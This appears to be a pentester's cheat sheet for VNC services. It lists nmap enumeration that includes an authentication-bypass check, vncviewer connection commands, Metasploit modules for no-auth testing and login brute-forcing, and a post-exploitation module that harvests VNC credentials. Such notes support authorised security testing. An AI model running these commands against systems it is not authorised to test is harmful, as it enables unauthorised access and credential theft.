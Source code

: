 # VNC

% vnc, 5800, 5801, 5900, 5901
#plateform/linux  #target/remote  #protocol/vnc #port/5800 #port/5801 #port/5900 #port/5901

## vnc - nmap enum
#cat/RECON 
```
nmap -sV --script vnc-info,realvnc-auth-bypass,vnc-title -p <port> <ip>
```

## vncviewer - connect to vnc no pass
#cat/ATTACK/CONNECT 
```
vncviewer <ip>::<port>
```

## vncviewer - connect to vnc with password
#cat/ATTACK/CONNECT 
```
vncviewer -password <password.txt> <ip>::<port>
```

## vnc msf test none auth
#cat/ATTACK/CONNECT 
```
msfconsole -x "use auxiliary/scanner/vnc/vnc_none_auth; set RHOSTS <ip>; set RPORT <port>; run"
```

## vnc - msf test login bf
#cat/ATTACK/BRUTEFORCE-SPRAY 
```
msfconsole -x "use auxiliary/scanner/vnc/vnc_login; set RHOSTS <ip>; set RPORT <port>; set USERNAME <username>; run"
```

## vnc - msf test login bf (2)
#cat/ATTACK/BRUTEFORCE-SPRAY 
```
msfconsole -x "use auxiliary/scanner/vnc/vnc_login; set RHOSTS <ip>; set RPORT <port>; set USER_FILE <users_file>; set PASS_FILE <pass_file>; run"
```

## vnc - post exploit retreive credentials
#cat/POSTEXPLOIT/CREDS_RECOVER 
```
msfconsole -x "use post/windows/gather/credentials/vnc; set SESSION <session>; run"
```
